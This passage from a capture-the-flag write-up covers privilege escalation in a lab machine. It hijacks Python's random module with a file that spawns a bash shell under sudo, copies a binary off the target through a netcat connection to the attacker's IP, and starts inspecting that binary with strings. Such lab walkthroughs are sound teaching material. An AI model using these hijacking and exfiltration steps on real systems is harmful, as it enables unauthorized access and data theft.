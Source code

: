```
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

It is importing the python library "random". Looks like Python Library hijacking to me. To exploit this just create a python file in the same directory with the name "random.py" with malicious code inside. I go ahead and create a "random.py" file with the following content:

```
import os
os.system("/bin/bash")
```

and now when we run the command that we got from "`sudo -l`"

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

We are greeted with shell for rabbit user. Next we see a binary named "teaParty" inside the rabbit's home directory. It is owned by the user hatter and we can run it. Running it gives nothing interesting So I guess we are doing reverse engineering now.

Transfer the binary to my machine using the netcat method like:

On my machine
```
nc -lvp 1234 > teaParty
```

On the target machine
```
nc YourIP 1234 < teaParty
```

Just press ctrl+c after some time and you can see the binary is transferred to your machine. Now one of the basics in reverse engineering is using the "strings" command on it.

```
strings teaParty

setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```
